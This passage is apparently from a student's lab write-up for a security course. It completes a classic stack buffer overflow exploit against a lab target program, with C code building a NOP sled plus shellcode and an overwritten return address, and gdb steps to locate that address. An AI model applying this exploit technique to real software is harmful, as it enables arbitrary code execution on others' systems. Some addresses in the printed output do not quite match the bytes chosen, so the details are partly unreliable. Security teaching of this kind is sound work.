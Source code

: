    ```c
      args[1][i] = NOP;
      i = i+1;
     }
     strcat(args[1],shellcode);
     strcat(args[1],jump_addr);

     args[0] = TARGET;
     args[2] = NULL;
     env[0] = NULL;

     if (0 > execve(TARGET, args, env))
       fprintf(stderr, "execve failed.\n");

     return 0;
   }
   ```

   Next we run gdb with our incomplete exploit as explained in the handout:

   ```bash
   gdb -e sploit1 -s target1
   ```

   We issue the command `catch exec` to tell gdb to break as we enter the target program and run the program with `run`

   After issuing both commands the program will have halted at the start of the execution of `target1` , to find our jump address we set a breakpoint at line 8 of `target1.c` right after the execution of the `strcpy` function, as we will be able to visualize the contents of the buffer and addresses. To set the breakpoint we type in the command `break 8` and then continue execution with `continue`.

   Now to visualize the stack we run the command `x/20x $sp`, this will print out the contents of the 20 first words (4 bytes each) in hexadecimal from the top of the stack and should display the following:

   ```bash
   0xbfffc70: 0xffffeb60  0x00007fff  0xffffeef7  0x00007fff
   0xbfffc80: 0xffffec60  0x00007fff  0x55554835  0x00005555
   0xbfffc90: 0x3345ee40  0x00000000  0xffffed68  0x00007fff
   0xbfffca0: 0x90909090  0x90909090  0x90909090  0x90909090
   0xbfffcb0: 0x90909090  0x90909090  0x90909090  0x90909090
   ```

   Here we can see the contents of the start of the buffer filled with `0x90` NOP instructions. Therefore we can use the address `0xbfffca0` to overwrite the return address. To do so we change the line of code in `sploit1.c`

   ```c
   char jump_addr[] = "AAAA"
   ```

   to

   ```c
   char jump_addr[] = "\xa0\xfc\xff\xbf"
   ```
